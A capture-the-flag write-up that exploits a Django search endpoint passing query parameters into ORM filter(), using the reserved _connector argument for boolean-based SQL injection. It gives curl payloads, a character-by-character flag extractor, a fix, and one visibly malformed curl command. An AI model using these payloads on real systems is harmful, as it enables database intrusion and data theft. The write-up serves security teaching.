

# SELECT Isn't a Choice

## Metadata

| Field | Value |
| --- | --- |
| Category | `web` |
| Difficulty | Medium |
| Points | 135 |
| Solves | 73 |
| First Blood | ZsZsec |

## Challenge Description

```text
SurveyHub lets you browse the company's internal surveys. A junior developer
just shipped a search feature that filters by any field you put in the URL. Any
field.
```

## Artifacts

The provided archive was encrypted with the password:

```text
infected
```

I confirmed the archive contents first:

```bash
zipinfo public.zip
```

Relevant output:

```text
models.py
requirements.txt
urls.py
views.py
```

The extraction step was:

```bash
7z x -pinfected -oextracted public.zip
```

Important local files after analysis:

```text
public.zip
extracted/views.py
extracted/models.py
extracted/urls.py
extracted/requirements.txt
extract_flag.py
solve.py
assets/index.html
assets/public-surveys.json
assets/surveyhub.png
```

Target used during the solve:

```text
https://6719280256edd2f2.chal.ctf.ae
```

## Recon

I started with the web application before jumping into the source. The homepage
rendered a SurveyHub catalog and the UI showed that the main data source was
`/api/surveys/`.

```bash
curl -k -i https://6719280256edd2f2.chal.ctf.ae/
```

Relevant response:

```text
HTTP/1.1 200 OK
Server: gunicorn
Content-Type: text/html; charset=utf-8
```

The rendered page shows a public survey catalog and filter controls for title,
category, and author:



The route map in the source confirmed that the challenge only exposes a small
surface:

```python
urlpatterns = [
    path("", views.index, name="index"),
    path("api/surveys/", views.survey_search, name="survey_search"),
    path("health/", views.health, name="health"),
]
```

The public API returned 12 surveys:

```bash
curl -k 'https://6719280256edd2f2.chal.ctf.ae/api/surveys/'
```

Representative response:

```json
{
  "count": 12,
  "results": [
    {
      "id": 12,
      "title": "Plastic Waste Reduction Pilot Results",
      "category": "Environment"
    }
  ]
}
```

The model file showed two database tables:

```python
class Survey(models.Model):
    title = models.CharField(max_length=200)
    category = models.CharField(max_length=100)
    author = models.CharField(max_length=100)
    description = models.TextField(blank=True)
    is_public = models.BooleanField(default=True)
    created_at = models.DateTimeField(auto_now_add=True)

class AdminNote(models.Model):
    key = models.CharField(max_length=100, unique=True)
    value = models.TextField()
```

That gave the first hypothesis: maybe the API search accepts `is_public=0` and
returns private surveys or an admin note. I tested that because it follows
directly from the challenge text and from the `is_public` field.

```bash
curl -k 'https://6719280256edd2f2.chal.ctf.ae/api/surveys/?is_public=0'
```

Response:

```json
{"count": 0, "results": []}
```

So the obvious path was a dead end. The flag was not exposed by simply changing
`is_public`.

## Vulnerability

The vulnerable code is in `survey_search()`:

```python
@require_GET
def survey_search(request):
    filters = request.GET.dict()

    if not filters:
        surveys = Survey.objects.filter(is_public=True)
    else:
        try:
            surveys = Survey.objects.filter(**filters)
        except Exception:
            return JsonResponse(
                {"error": "Invalid filter parameters"},
                status=400,
            )
```

The first issue is that any query string replaces the safe default
`is_public=True` filter. However, remote testing showed that this alone was not
enough to get the flag.

The second and exploitable issue is subtler: `request.GET.dict()` is passed
directly into `Survey.objects.filter(**filters)`. I checked Django's local source
inside the challenge virtualenv to understand exactly how `filter()` consumes
those keyword arguments:

```bash
./.venv/bin/python -c "import inspect; from django.db.models.query import QuerySet; from django.db.models import Q; print(inspect.getsource(QuerySet._filter_or_exclude_inplace)); print(inspect.signature(Q)); print(inspect.getsource(Q.__init__))"
```

Relevant output:

```python
def _filter_or_exclude_inplace(self, negate, args, kwargs):
    if negate:
        self._query.add_q(~Q(*args, **kwargs))
    else:
        self._query.add_q(Q(*args, **kwargs))

Q signature: (*args, _connector=None, _negated=False, **kwargs)

def __init__(self, *args, _connector=None, _negated=False, **kwargs):
    super().__init__(
        children=[*args, *sorted(kwargs.items())],
        connector=_connector,
        negated=_negated,
    )
```

That was the key observation. `_connector` is not treated as a normal model
field. It is a special `Q` argument used as the connector between query
conditions. Because the view passes user-controlled query parameters directly
into `filter(**filters)`, an attacker controls that connector.

I then reproduced the generated SQL locally with a minimal Django model:

```bash
./.venv/bin/python -c "from django.conf import settings; settings.configure(INSTALLED_APPS=[], DATABASES={'default': {'ENGINE': 'django.db.backends.sqlite3', 'NAME': ':memory:'}}, SECRET_KEY='x'); import django; django.setup(); ns={}; exec('from django.db import models\nclass Survey(models.Model):\n    title=models.CharField(max_length=200)\n    class Meta:\n        app_label=\"surveys\"', ns); Survey=ns['Survey']; print(Survey.objects.filter(id=999, title='zzzz', _connector=') OR 1=1 OR (').query)"
```

Output:

```sql
SELECT "surveys_survey"."id", "surveys_survey"."title"
FROM "surveys_survey"
WHERE ("surveys_survey"."id" = 999 ) OR 1=1 OR ( "surveys_survey"."title" = zzzz)
```

The app does not directly print SQL output, but it does return a different
`count` depending on whether the injected SQL condition is true. That turns the
endpoint into a boolean SQL oracle.

## Exploitation

The exploit chain was:

1. Read the homepage and identify `/api/surveys/` as the search API.
2. Read `views.py` and find `Survey.objects.filter(**request.GET.dict())`.
3. Test the obvious `is_public=0` idea and confirm it returns zero results.
4. Read `models.py` and identify the hidden `AdminNote` table as the likely flag
   storage.
5. Inspect Django's local `QuerySet.filter()` and `Q` implementation.
6. Discover that `_connector` is accepted by `Q` and controls how conditions are
   joined.
7. Build two impossible normal filters, `id=999` and `title=zzzz`, so the base
   query returns zero rows.
8. Inject a boolean condition into `_connector`.
9. Interpret `count=12` as true and `count=0` as false.
10. Extract the `AdminNote.value` containing `flag{...}` one character at a
    time with `substr()`.

The false baseline used two filters that should match nothing:

```bash
curl -k --get 'https://6719280256edd2f2.chal.ctf.ae/api/surveys/' \
  --data-urlencode 'id=999' \
  --data-urlencode 'title=zzzz'
```

The injected connector controlled whether that false baseline became true:

```bash
curl -k --get 'https://6719280256edd2f2.chal.ctf.ae/api/surveys/' \
  --data-urlencode 'id=999' \
  --data-urlencode 'title=zzzz' \
  --data-urlencode '_connector=) OR 1=1 OR ('
```

Response:

```json
{"count": 12}
```

Changing the injected expression to false produced zero results:

```bash
curl -k --get 'https://6719280256edd2f2.chal.ctf.ae/api/surveys/' \
  --data-urlencode 'id=999' \
  --data-urlencode 'title=zzzz' \
  --data-urlencode '_connector=) OR 1=0 OR ('
```

Response:

```json
{"count": 0}
```

Then I tested whether the hidden table from `models.py` existed remotely:

```bash
curl -k --get 'https://6719280256edd2f2.chal.ctf.ae/api/surveys/' \
  --data-urlencode 'id=999' \
  --data-urlencode 'title=zzzz' \
  --data-urlencode '_connector=) OR EXISTS(SELECT 1 FROM surveys_adminnote) OR ('
```

Response:

```json
{"count": 12}
```

Finally, I confirmed that the hidden note contained a flag-shaped value:

```bash
curl -k --get 'https://6719280256edd2f2.chal.ctf.ae/api/surveys/' \
  --data-urlencode 'id=999' \
  --data-urlencode 'title=zzzz' \
  --data-urlencode "_connector=) OR EXISTS(SELECT 1 FROM surveys_adminnote WHERE value LIKE 'flag' LIMIT 1),
  <position>,
  1
) = '<candidate>'
```

## Technical Details

This is not classic string concatenation in application code. The vulnerable
view appears to use Django's ORM, which is usually safer than hand-written SQL.
The problem is that the view gives untrusted users control over the full filter
dictionary instead of validating allowed lookup names.

The risky boundary is:

```text
request.GET.dict()
        |
        v
Survey.objects.filter(**filters)
        |
        v
Q(*args, _connector=<attacker input>, **kwargs)
        |
        v
attacker-controlled SQL connector
```

The API serializes only `Survey` objects:

```python
results = [
    {
        "id": s.id,
        "title": s.title,
        "category": s.category,
        "author": s.author,
        "description": s.description,
    }
    for s in surveys[:50]
]
```

So even though the SQL condition can reference `surveys_adminnote`, the response
will never directly print `AdminNote.value`. That is why the exploit uses a
boolean oracle:

```text
condition true  -> query returns public Survey rows -> count = 12
condition false -> query returns no rows            -> count = 0
```

The fix is to avoid binding arbitrary query parameters into ORM filters. A safe
version would map only explicitly supported fields:

```python
allowed = {}
if "title" in request.GET:
    allowed["title__icontains"] = request.GET["title"]
if "category" in request.GET:
    allowed["category"] = request.GET["category"]
surveys = Survey.objects.filter(is_public=True, **allowed)
```

The important properties are:

```text
keep is_public=True on every public request
allowlist filter names
never pass reserved ORM arguments from request data
```

## Exploit Artifact

The final extractor is [extract_flag.py](extract_flag.py). [solve.py](solve.py)
is a small wrapper that calls it.

Usage:

```bash
./extract_flag.py https://6719280256edd2f2.chal.ctf.ae
```

The script:

1. builds `_connector=) OR (<condition>) OR (`;
2. sends it with `id=999` and `title=zzzz`;
3. parses the JSON response;
4. treats `count == 12` as true;
5. brute-forces the flag one character at a time.

Relevant function:

```python
def condition_is_true(base_url: str, condition: str) -> bool:
    connector = f") OR ({condition}) OR ("
    cmd = [
        "curl",
        "-k",
        "-sS",
        "--max-time",
        "20",
        "--get",
        base_url.rstrip("/") + "/api/surveys/",
        "--data-urlencode",
        "id=999",
        "--data-urlencode",
        "title=zzzz",
        "--data-urlencode",
        f"_connector={connector}",
    ]
    raw = subprocess.check_output(cmd, text=True)
    data = json.loads(raw)
    return data.get("count") == 12
```

## Validation

Syntax check:

```bash
python3 -m py_compile extract_flag.py solve.py
```

Public API:

```json
{"count":12}
```

Obvious `is_public=0` test:

```json
{"count":0,"results":[]}
```

Boolean oracle:

```text
_connector=) OR 1=1 OR (  -> count 12
_connector=) OR 1=0 OR (  -> count 0
```

Hidden table check:

```text
EXISTS(SELECT 1 FROM surveys_adminnote) -> count 12
```

Final extractor output:

```text
f
fl
fla
flag
flag{
...
flag{8e8567386ad423fc}
```

## References

- <https://docs.djangoproject.com/en/5.1/ref/models/querysets/#filter>
- <https://docs.djangoproject.com/en/5.1/topics/db/queries/#complex-lookups-with-q-objects>
- <https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html>
- <https://cwe.mitre.org/data/definitions/89.html>

## Flag

```text
flag{8e8567386ad423fc}
```
